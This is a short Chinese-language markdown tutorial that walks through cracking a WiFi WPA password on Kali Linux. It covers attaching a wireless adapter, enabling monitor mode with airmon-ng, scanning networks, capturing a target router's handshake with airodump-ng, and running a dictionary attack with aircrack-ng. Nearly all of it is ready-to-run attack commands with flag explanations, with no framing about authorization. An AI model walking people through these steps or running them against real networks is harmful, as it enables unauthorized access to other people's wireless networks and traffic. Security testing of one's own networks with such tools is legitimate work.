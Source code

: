 ## 1.kali连接无线网卡

### 1.`lsusb` 查看网卡是否识别

```
lsusb
```

### 2.`ifconfig`，**wlan0**确定网卡已连接虚拟机

```
ifconfig
```

`iwconfig`，**wlan0** 是由无线适配器创建的无线接⼝

```
iwconfig
```

## 2.WiFi密码破解

### 3.查看网卡是否支持监听模式

```
airmon-ng
```

### 4.开启无线网卡监听模式

```
airmon-ng start wlan0
```

开启监听模式之后，无线接⼝`wlan0`变成了`wlan0mon`，可以使用`ifconfig`命令查看

```
ifconfig
```

### 5.扫描环境中的WiFi网络

```
airodump-ng wlan0mon
```

### 6.抓取握手包

```
airodump-ng -c 1 --bssid A2:CD:F2:F7:00:B7 -w /root/tools/wifi wlan0mon

#-c 指定信道，上⾯已经标记⽬标热点的信道
#-bssid指定⽬标路由器的BSSID，就是上⾯标记的BSSID
#-w指定抓取的数据包保存的⽬录
```

### 7.抓包成功

### 8.数据包分析

802.11数据包结构

### 9.进行WiFi破解

```
aircrack-ng -a2 -b A2:CD:F2:F7:00:B7 -w /root/tools/wifi/wpa.txt /root/tools/wifi-04.cap

#-a2 表示WPA的握⼿包
#-b 指定要破解WiFi的 bssid
#-w 字典存放位置
# 后⾯为要破解的数据包位置
```

![image-20240625185332394](https://s2.loli.net/2024/06/25/GiVNHBu6xDPlFM3.png)

### 10.关闭监听模式，连接WiFi

```
airmon-ng stop wlan0mon
```

